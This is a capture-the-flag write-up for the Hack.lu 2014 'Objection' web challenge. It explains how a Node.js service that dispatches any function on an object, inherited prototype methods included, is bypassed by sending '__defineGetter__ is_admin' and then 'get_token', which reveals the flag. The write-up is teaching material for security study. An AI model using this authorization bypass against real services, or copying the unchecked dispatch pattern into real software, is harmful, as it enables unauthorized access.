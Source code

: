 # Hack.lu CTF 2014: Objection

**Category:** Web
**Points:** 150
**Author:** TheJH
**Description:**

> This guard talks a weird dialect. And why does he talk in such a complicated way?
>
> Download: [objection_4966674d17ff296939c0e3dfccfe87ed.co](objection_4966674d17ff296939c0e3dfccfe87ed.co)
>
> `nc wildwildweb.fluxfingers.net 1408`

## Write-up

[The provided `objection_4966674d17ff296939c0e3dfccfe87ed.co` file](objection_4966674d17ff296939c0e3dfccfe87ed.co) resembles a Node.js app, except it’s written in “a weird dialect” instead of in JavaScript. This is [Coco](https://github.com/satyr/coco#readme), which is in turn a dialect of [CoffeeScript](http://coffeescript.org/). Let’s [compile the Coco code to JavaScript](objection.js), since we’re more familiar with that language:

```bash
$ coco -c -p objection_4966674d17ff296939c0e3dfccfe87ed.co > objection.js
```

[The source code](objection.js) reveals that the program accepts commands as input:

* `login $password` attempts to login using `$password` as the password
* `get_token` reveals the token if you’re logged in as admin

Since we don’t know the admin password, we’ll have to find another way to set `client_context.is_admin` to a truthy value, to avoid hitting this `if` branch:

```js
if (!this.is_admin) {
  return cb("You are not authorized to perform this action.");
}
```

Let’s take a look at the code that parses our input:

```js
var ref$, funcname, args;
it = it.toString('utf8');
console.log("got line: " + it);
ref$ = it.split(' ');
funcname = ref$[0];
args = slice$.call(ref$, 1);
if (typeof client_context[funcname] !== 'function') {
  return con.write("error: unknown function " + funcname + "\n");
}
return client_context[funcname](args, function(it){
  return con.write(it + "\n");
});
```

The program accepts any command `funcname` as long as `client_context[funcname]` is a JavaScript function object. This means we’re not limited to the custom `login` and `get_token` methods – we can also use function properties that are inherited from the global `Object.prototype`. Using [some old code](https://github.com/mathiasbynens/tpyo/blob/b76ca2f4d7726c51c2f8c779d73773de91f86a56/tpyo.js#L7-L22), we quickly created the following list of such properties that are available in Node.js (which is based on the V8 engine):

* `constructor`
* `hasOwnProperty`
* `isPrototypeOf`
* `propertyIsEnumerable`
* `toLocaleString`
* `toString`
* `valueOf`
* `__defineGetter__`
* `__defineSetter__`
* `__lookupGetter__`
* `__lookupSetter__`

If we enter [`__defineGetter__`](https://javascript.spec.whatwg.org/#object.prototype.__definegetter__) as the command name and `is_admin` as its argument, the following code is executed:

```js
client_context.__defineGetter__(['is_admin'], function(it) {
  return con.write(it + "\n");
});
```

After that, every time `client_context.is_admin` is accessed, it results in the return value of `con.write(it + "\n")` instead of its initial value `false`. This means we can call `get_token` afterwards. Bingo!

```bash
$ nc wildwildweb.fluxfingers.net 1408
hello!
__defineGetter__ is_admin
get_token
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
```

The flag is `flag{real_cowboys_dont_use_object_create_null}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-150-objection/>
* [Exploit in Python by @TheJH](thejh_exploit.py)
